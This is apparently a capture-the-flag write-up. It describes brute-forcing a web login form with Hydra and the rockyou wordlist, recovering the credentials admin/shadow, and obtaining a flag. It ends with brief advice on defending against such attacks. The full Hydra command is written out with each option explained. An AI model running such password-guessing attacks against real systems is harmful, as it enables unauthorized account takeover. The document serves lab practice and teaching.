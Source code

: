 We installed Hydra and executed the following command:
hydra -l admin -P ./Downloads/rockyou.txt -F <IP_ADDRESS> http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
Where:
-l admin : use admin as the username (we just assumed that admin would be a valid username).
-P ./Downloads/rockyou.txt -F : Try all the passwords listed in the dictionary of the most common passwords suggested in this guide and exit after the first login/password pair found for any host.
<IP_ADDRESS> : The IP address of our website.
http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif' :
We used http-get-form because it emulates sending a form, which distinguishes it from a standard HTTP request. 
We determine success by the lack of display "WrongAnswer.gif " on the URL "http://<IP_ADDRESS>/?page=signin&username=admin&password=shadow&Login=Login#".

We received a response that the correct password is shadow, logged in with admin/shadow and received a flag.

How to protect yourself from Hydra password matching:
A strong password
Change your password regularly
Account lockdown after several failed login attempts
Captcha
